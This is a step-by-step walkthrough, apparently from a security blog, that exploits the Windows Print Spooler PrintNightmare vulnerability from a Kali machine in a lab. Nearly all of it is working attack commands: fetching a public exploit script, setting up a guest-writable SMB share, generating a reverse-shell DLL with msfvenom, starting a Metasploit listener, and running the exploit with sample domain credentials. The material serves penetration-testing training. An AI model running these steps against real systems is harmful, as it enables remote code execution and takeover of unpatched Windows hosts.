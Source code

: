 
### Preparation in Kali

Open a terminal and enter the following commands. This will get an alternate package of impacket and will download the python script needed for this exploit

```powershell
$ cd /tmp/
$ sudo pip3 uninstall impacket
$ git clone https://github.com/cube0x0/impacket
$ cd impacket
$ sudo python3 ./setup.py install
$ wget https://raw.githubusercontent.com/cube0x0/CVE-2021-1675/main/CVE-2021-1675.py
```

![exploit the PrintNightmare](https://www.thedutchhacker.com/wp-content/uploads/2021/07/image-1.png)

The script will need to download a malicious DLL file. So we need a share and for this, we will create an smb server on kali.

Type in the following command to config the smb server to point to the tmp directory on your kali machine. We are using this tmp directory because when rebooting kali all will be gone. But you can choose any directory you want. Just make sure it has the correct rights to be used as a public share.

```shell
$ sudo nano /etc/samba/smb.conf
```

Put in the following config

```
 [global]
     map to guest = Bad User
     server role = standalone server
     usershare allow guests = yes
     idmap config * : backend = tdb
     smb ports = 445
  
 [smb]
     comment = Samba
     path = /tmp/
     guest ok = yes
     read only = no
     browsable = yes
     force user = smbuser
```

Start the smb server with the following command

```shell
$ sudo service smbd restart
```

Now we are going to create the DLL that we will be using to create a reverse shell. Type in the following command and change the IP to your kali machine IP and copy the dll to the tmp directory

```powershell
$ msfvenom  -f dll -p windows/x64/shell_reverse_tcp LHOST=10.0.0.132 LPORT=443 -o reverse.dll

$ cp reverse.dll /tmp
```

![exploit the PrintNightmare](https://www.thedutchhacker.com/wp-content/uploads/2021/07/image-2.png)

Next we will start a listener with msfconsole. Type in the following commands

```powershell
$ msfconsole
msf6 > use multi/handler
msf6 > set PAYLOAD windows/x64/shell_reverse_tcp
msf6 > set LHOST 10.0.0.132
msf6 > set LPORT 443
msf6 > run
```

![exploit the PrintNightmare](https://www.thedutchhacker.com/wp-content/uploads/2021/07/image-3.png)

## The Exploit the PrintNightmare

Navigate to the tmp directory as that is where we have our py file. Type in the following command to start the exploit. Please do change the IP address to your lab environment. The first Ip is the Windows machine and the second the kali

```
sudo python3 CVE-2021-1675.py marvel.local/fcastle:Password1@10.0.0.117 '\\192.168.0.157\smb\reverse.dll
```

![exploit the PrintNightmare](https://www.thedutchhacker.com/wp-content/uploads/2021/07/image-4-1024x876.png)

## Reference

- [CVE-2021-34527 – Security Update Guide – Microsoft – Windows Print Spooler Remote Code Execution Vulnerability](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527)
- [GitHub – cube0x0/CVE-2021-1675: C# and Impacket implementation of PrintNightmare CVE-2021-1675/CVE-2021-34527](https://github.com/cube0x0/CVE-2021-1675)